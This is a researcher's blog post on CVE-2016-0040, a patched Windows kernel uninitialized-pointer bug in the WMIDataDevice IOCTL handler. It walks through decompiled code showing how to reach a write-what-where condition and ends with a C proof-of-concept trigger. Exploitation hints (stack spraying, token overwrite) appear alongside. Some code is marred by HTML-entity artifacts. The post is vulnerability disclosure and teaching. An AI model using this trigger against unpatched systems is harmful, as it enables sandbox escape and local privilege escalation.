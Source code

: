 ```yaml
---
layout: post
title: "CVE-2016-0040 Story of Uninitialized Pointer in Windows Kernel"
date: 2024-03-29 1:1:59 +0100
categories: fuzzing
---
```

Update:

This post is a resharing of a blog I wrote about a vulnerability I discovered in Windows kernel almost a decade ago.


this vulnerablity is interesting for three reseaons 
* it gave Write arbitrary data to arbitrary address.
* it has an amusing story associated with it. after my discovery of this vulnerability, I shared a tweet about it, which caught the attention of researchers from Microsoft. Remarkably, they were able to discern the root cause of the vulnerability simply by examining my tweet.
you can read their story in [MSRC blog](https://msrc.microsoft.com/blog/2017/06/tales-from-the-msrc-from-pixels-to-poc/)

![My image Name](/assets/tweet.png)
* there was another vulnerablity( CVE-2016-0087) in this function I had found and I was expecting MSRC to spot it when then are auditing wmi, but they didn't.


Original post:

A few months ago, I discovered some vulnerabilities in the Windows kernel, mostly related to local privilege escalation.

Microsoft patched one of the reported vulnerabilities in MS16-014. The vulnerability type is an uninitialized pointer dereference. This vulnerability can be triggered even by a process with "low integrity level", meaning that successfully exploiting this vulnerability can lead to bypassing the sandbox (for example, the IE sandbox) or generic local privilege escalation for any process.


Here's a description of the bug:

For handling some WMI functions, Windows NT creates a named device called <mark>WMIDataDevice</mark>.

This device is accessible from user mode with any permission (you can check it with WinObj). WMIDataDevice handles some IOCTLs, with the <mark>WmipReceiveNotifications</mark> function responsible for the <mark>IOCTL_WMI_ENUMERATE_GUIDS IOCTL</mark>. Based on the first DWORD of <mark>Irp->AssociatedIrp.SystemBuffer</mark>, WmipReceiveNotifications decides whether to use the <mark>stack</mark> or <mark>kernel pool</mark> as a buffer for storing data/pointers. If the first DWORD is less than or equal to 0x10, the stack is selected as the buffer.

There's another important usage of the mentioned DWORD. WmipReceiveNotifications uses this DWORD as a counter for looping and initializing the local buffer. So, if we put 0 in the first DWORD of Irp->AssociatedIrp.SystemBuffer from user mode, the function selects the stack as the buffer. As mentioned earlier, this buffer is initiated in a loop. In this case, since we passed 0, the function skips loop execution, leaving the stack buffer uninitialized.

To reach the vulnerability, we need to bypass some other condition inside WmipReceiveNotifications.


v16 comes from user mode and its value needs to be 2.
{% highlight cpp %}
v16 = *(_DWORD *)(SystemBuffer + 4);
{% endhighlight %}

Insert a valid handle for ObReferenceObjectByHandle in SystemBuffer.
{% highlight cpp %}
v39 = ObReferenceObjectByHandle(*(HANDLE *)(SystemBuffer + 16), 0x43Au, 0, 1, &PIRP, 0);
{% endhighlight %}


finally uninitialized local variable used as target pointer and function write a DWORD from SystemBuffer + 8 to it

we can control what is written but for manipulating uninitialized stack we need a good stack spray inside kernel

{% highlight cpp %}
v23 = *(_DWORD *)LocalBuffer;

*(_DWORD *)(v23 + 60) = *(_DWORD *)(SystemBuffer + 8); // Write arbitrary data to uninitialized local variable or Write-what-where condition
{% endhighlight %}

Utilizing an uninitialized local variable as a pointer to write arbitrary data to its referenced location requires the attacker to employ a stack spraying technique for successful exploitation. This vulnerability presents a "write-what-where" condition, offering multiple ways for exploitation, such as zero ACL or SET token permission.

{% highlight cpp %}
int __userpurge WmipReceiveNotifications(int SystemBuffer , unsigned int * OutputBufferSize, PVOID PIRP) {
     ...
     ...
 
     v4 = SystemBuffer;
     v5 = * OutputBufferSize;
     v6 = * (_DWORD * ) v4;
     v39 = -1073741811;
     v37 = v5;
     v36 = v6;
     if (v6 <= 0x10) // if first value inside buffer from user mode is less than or equal to 0x10 then use local stack so we pass 0 to force use local stack
     {
         LocalBuffer =& v32;;
         
     } else {
         LocalBuffer = ExAllocatePoolWithTag(PagedPool, 8 * v6, 0x70696D57 u);
         if (!LocalBuffer)
             return -1073741670;
     }
 
     we don 't go inside this if because we use passed zero
 
     v42 = 0;
     v40 = 0;
     v38 = 0;
     v44 = 0;
     v41 = 0;
     if (v6) 
{
         do {
             v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 8 * v41 + 24), 4 u, WmipGuidObjectType, 1,&Object, 0);
             if (v39<0) goto LABEL_55;
             v8 = Object;
             v9 = 0;
             if (v44) {
                 while (Object != * ((PVOID * ) LocalBuffer + 2 * v9)) {.......
                 }
             }
         }
     } // because v42 and v45 is set to 0 we also bypass this two if 
if ( v42 == 1 ) { ... ... ... } 
if ( v45 | BYTE3(PIRP) ) { v13 = v37; if ( v11 &v37 )
     
  * (_DWORD * )(v4 + 48) = v11; * (_DWORD * ) v4 = 56; * (_DWORD * )(v4 + 44) = 32; * OutputBufferSize = 56;
     
     ...
     ...
     ...
 
 //v16 come from user mode so we can set it's value 2 then lead code to here
 
 if (v16 != 2) 
{
     LABEL_54:
         * OutputBufferSize = 0;
     goto LABEL_55;
 }
 v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 16), 0x43A u, 0, 1,&PIRP, 0);
 if (v39 >= 0)
 {
     v39 = ObOpenObjectByPointerWithTag((ULONG_PTR) PIRP, 512, 0, 0x1FFFFF, 0, 0, 1953261124, (int)&v35);
     if (v39>= 0)
 {
         v23 = * (_DWORD * ) LocalBuffer; * (_DWORD * )(v23 + 60) = * (_DWORD * )(v4 + 8); // write arbitrary data from uninitialized local variable

{% endhighlight %}

# Advantages of the vulnerability:
* The bug can be triggered even in low integrity contexts.
*  It's unrelated to win32k.sys, meaning it ignores the "Win32k system call disable policy", for instance in Chrome browser.
* It works with the default OS configuration, providing a universal sandbox bypass.

Sample POC for the vulnerability
{% highlight cpp %}

typedef union {
    HANDLE Handle;
    ULONG64 Handle64;
    ULONG32 Handle32;
}
HANDLE3264, * PHANDLE3264;
 
typedef struct {
    //
    // List of guid notification handles
    //
    ULONG HandleCount;
    ULONG Action;
    HANDLE /* PUSER_THREAD_START_ROUTINE */ UserModeCallback;
    HANDLE3264 UserModeProcess;
    HANDLE3264 Handles[20];
}
WMIRECEIVENOTIFICATION, * PWMIRECEIVENOTIFICATION;
 
#define RECEIVE_ACTION_CREATE_THREAD 2 // Mark guid objects as requiring
 
typedef struct {
    IN VOID * ObjectAttributes;
    IN ACCESS_MASK DesiredAccess;
 
    OUT HANDLE3264 Handle;
}
WMIOPENGUIDBLOCK, * PWMIOPENGUIDBLOCK;
 
#define IOCTL_WMI_ENUMERATE_GUIDS\
CTL_CODE(FILE_DEVICE_UNKNOWN, WmiEnumerateGuidList, METHOD_BUFFERED, FILE_READ_ACCESS)
 
void main() {
    DWORD dwBytesReturned;
    HANDLE threadhandle;
    WMIRECEIVENOTIFICATION buffer;
    CHAR OutPut[1000];
 
    memset( & amp; buffer, '\x41', sizeof(buffer)); // set ecx to 0x41414141
    buffer.HandleCount = 0;
    buffer.Action = RECEIVE_ACTION_CREATE_THREAD;
    buffer.UserModeProcess.Handle = GetCurrentProcess(); 
 
    // using NtMapUserPhysicalPages for spraying stack cant help us
 
    HANDLE hDriver = CreateFileA("\\\\.\\WMIDataDevice", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDriver != INVALID_HANDLE_VALUE) {
        while (TRUE) {
            if (!DeviceIoControl(hDriver, IOCTL_WMI_RECEIVE_NOTIFICATIONS, & amp; buffer, sizeof(buffer), & amp; OutPut, sizeof(OutPut), & amp; dwBytesReturned, NULL)) {
                return;
            }
        }
 
    }
 
}
{% endhighlight %}


[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/




